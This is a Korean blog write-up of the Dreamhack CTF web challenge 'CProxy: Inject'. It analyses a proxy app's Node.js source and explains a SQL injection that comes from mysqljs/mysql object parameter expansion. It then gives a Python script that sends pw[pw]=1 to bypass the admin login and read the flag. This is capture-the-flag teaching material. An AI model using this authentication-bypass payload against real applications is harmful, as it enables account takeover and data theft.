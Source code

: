 ```yaml
---
layout: single
title: "[Dreamhack] CProxy: Inject write-up"
date: 2024-12-31 16:35 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] CProxy: Inject

<br>

### 문제 설명

- 임의 웹사이트로 http 요청을 보내고 응답을 확인할 수 있는 온라인 프록시 서비스 `CProxy`입니다.
- `admin_inject` 계정을 탈취하고 프록시 응답 기록을 유출하여 플래그를 획득하세요!
- Note: 모든 `CProxy` 문제들의 문제 파일과 동작 중인 서비스는 동일합니다.

<br>

문제 페이지에 접속해보면 아래와 같이 /auth 경로로 접속되고, 로그인 폼이 존재한다. PW를 최소 8자리 이상으로 입력해야 하므로 12345678로 계정을 만들었다.

<img src="/images/2024-12-31-Cproxy-inject/{C34E8D55-7755-48C5-AC72-64727D751A2D}.png" alt="{C34E8D55-7755-48C5-AC72-64727D751A2D}" style="zoom:50%;" />

<br>
로그인하면 Scheme, Host, Port, Path를 입력하는 부분이 존재하고 Logout 버튼도 존재한다.

<img src="/images/2024-12-31-Cproxy-inject/{7E1AE557-BA7A-4263-8B81-3E7AE011C5E0}.png" alt="{7E1AE557-BA7A-4263-8B81-3E7AE011C5E0}" style="zoom:43%;" />

<br>

아래는 index.html의 소스코드인데 보면 /proxy로 아래 내용들을 GET 메소드로 요청하고 있다. 우리가 해야할 건 `admin_inject`의 계정을 탈취해야 한다.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CProxy</title>
</head>
<body>
    <form action="/proxy" method="GET">
        <label for="scheme">Scheme:</label>
        <select name="scheme" id="scheme">
            <option value="http">http</option>
            <option value="https">https</option>
        </select><br><br>
        <label for="host">Host:</label>
        <input type="text" id="host" name="host" minlength="1"><br><br>
        <label for="port">Port:</label>
        <input type="number" id="port" name="port" min="0" max="65535"><br><br>
        <label for="path">Path:</label>
        <input type="text" id="path" name="path" size="50"><br><br>
        <input type="submit" value="Submit">
    </form>
    <br><br>
    <form action="/logout" method="POST">
        <input type="submit" value="Logout">
    </form>
</body>
</html>
```

<br>

www.google.com/으로 Scheme은 http로 하여 Submit 버튼을 눌러보았다.

<img src="/images/2024-12-31-Cproxy-inject/{F36FB109-3E36-46E8-80D6-9921A550FF6D}.png" alt="{F36FB109-3E36-46E8-80D6-9921A550FF6D}" style="zoom:67%;" />
<br>

보면 뭔지는 모르겠지만 `host1.dreamhack.games`에서 `google.com`의 페이지 소스 코드를 보여주고 있다.

<img src="/images/2024-12-31-Cproxy-inject/{6FC4E75E-6191-4A81-A91E-0B7FB5BE0FE8}.png" alt="{6FC4E75E-6191-4A81-A91E-0B7FB5BE0FE8}" style="zoom:43%;" />

<br>

/proxy 경로의 소스 코드를 살펴보면 요청 쿼리에서 scheme, host, port, path 값을 받아온다. url 변수에는 net 객체의 buildUrl이라는 함수가 호출되고 bypassDns라는 값이 true가 되어있고, caheKey와 chachedRes 변수에는 삼항연산자를 이용하여 url이 유효한 경우 hashKey를 생성하고, cache 객체에서 cacheKey에 해당하는 값을 가져오고 있다. bypassDns 라는 값이 뭔지 알아보니 net.js 코드에 dns.setServers 값에 1.1.1.1과 8.8.8.8이 있는 것으로 보아 서버의 DNS를 사용하기 위해 설정한 것 같다. 

```javascript
app.get('/proxy', requireAuth, async (req, res, next) => {
    const {scheme, host, port, path} = req.query;
    
    const url = await net.buildUrl(scheme, host, port, path, bypassDns=true);
    const cacheKey = url ? hashKey(url) : undefined;
    const cachedRes = url ? cache.get(cacheKey) : undefined;

    if (cachedRes === undefined) {
        req.cacheKey = cacheKey;
        next();
    } else {
        net.sendResponse(res, cachedRes);
    }
}, async (req, res) => {
    const param = {};
    for (c of ['scheme', 'host', 'port', 'path']) {
        param[c] = req.param(c);
    }
    const {scheme, host, port, path} = param;

    const url = await net.buildUrl(scheme, host, port, path);
    if (url === undefined) {
        return res.sendStatus(404);
    }

    const proxyRes = await net.get(url);
    if (proxyRes === undefined) {
        return res.sendStatus(404);
    }

    net.sendResponse(res, proxyRes);
    delete proxyRes.headers['set-cookie'];
    await db.insertResponse(req.session.uid, proxyRes);
    cache.set(req.cacheKey, proxyRes);
});
```

<br>

admin_inject 계정을 탈취하기 위해선 sql injection이 발생해야 한다. 아래는 로그인 소스 코드이고, 처음 봤을 때 `?` 플레이스 홀더가 있길래 Prepared Statement를 사용하는지 알았는데 mysqljs/mysql 라이브러리에서 `query()` 함수는 쿼리문을 동적으로 생성한 후 서버에 생성된 쿼리문을 보내 DB 요청을 수행한다. 여기서 인자를 문자열로 치환하여 쿼리문을 생성하는 `stringfyObjects` 옵션이 기본으로 꺼져 있다.

```js
async function doLogin(id, pw) {
    try {
        const result = await query("SELECT * FROM users WHERE id = ? AND pw = ?", [id, pw]);
        if (result.length === 1) {
            return result[0]._id;
        }
    } catch {}
}
```

<br>

index.js 소스 코드에서 보면 `express.urlencoded()` 함수를 볼 수 있는데 이는 배열과 object 형식을 파싱하는 `extend` 옵션이 기본 설정으로 켜져 있고, 로그인 소스 코드에서 id와 pw 값이 string 형태인지 검사하지 않고 있다.

```js
app.use(session({
	secret: SESSION_SECRET,
	resave: true,
	saveUninitialized: true
}));
app.use(express.urlencoded());

const requireAuth = async (req, res, next) => {
    if (req.session.uid !== undefined) {
        next();
    } else {
        res.redirect('/auth');
    }
};
```

<br>따라서 로그인 시 pw 값을 `{'pw': 1}` 로 전달하면 `pw = ?` 가 `pw = 'pw' = 1`로 치환되고, `(pw = pw) = 1` 과 동일하기 때문에 언제나 참인 조건문이 된다. 따라서 아래에 data에 flag가 들어있고 파이썬 코드로 짜서 /api/history/1 경로에 들어가서 flag 값을 확인할 수 있다.

```text
INSERT INTO responses (_id, uid, res) VALUES (1, 1, '{"status":200,"statusText":"OK","headers":{},"data":"DH{sample_flag_inject}","url":"flag_inject"}');
```

```python
import requests

URL = 'http://host1.dreamhack.games:13256'

auth_data = {'id': 'admin_inject',
             'pw[pw]': 1
}

r = requests.Session()
r.post(URL+'/auth', data=auth_data).raise_for_status()
print(r.get(URL+'/api/history/1').json()['data'])

```

![{AC0E2D70-1A55-4A62-92FC-CD1F5E47F224}](/images/2024-12-31-Cproxy-inject/{AC0E2D70-1A55-4A62-92FC-CD1F5E47F224}.png)



